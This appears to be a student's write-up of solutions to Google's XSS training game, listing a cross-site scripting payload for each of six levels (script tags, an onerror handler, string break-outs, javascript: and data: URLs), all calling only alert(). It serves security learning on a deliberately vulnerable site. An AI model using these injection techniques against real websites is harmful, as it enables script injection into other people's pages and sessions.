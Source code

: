 # Project 2: XSS Google Challenge

## Kevin Jackson

### Level 1 Solution

Insert the following code into the text box and press enter:

```html
<script> alert('XSS') </script>
```

### Level 2 Solution

Insert the following code into the message box and press enter:

```html
<img src="http://example.com" onerror="javascript:alert(1)"/>
```

### Level 3 Solution

Insert the following code into the search bar and press enter:

```html
https://xss-game.appspot.com/level3/frame#1' onerror='alert(1)';
```
### Level 4 Solution

Insert the following code into the search bar and press enter:

```html
https://xss-game.appspot.com/level4/frame?timer=')%3Balert(1)%3Bvar b=('
```

### Level 5 Solution

Insert the following code into the search bar and press enter. After that press next:

```html
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert("XSS")
```


### Level 6 Solution

Insert the following code into the search bar and press enter:

```html
https://xss-game.appspot.com/level6/frame#data:text/javascript,alert('XSS')
```
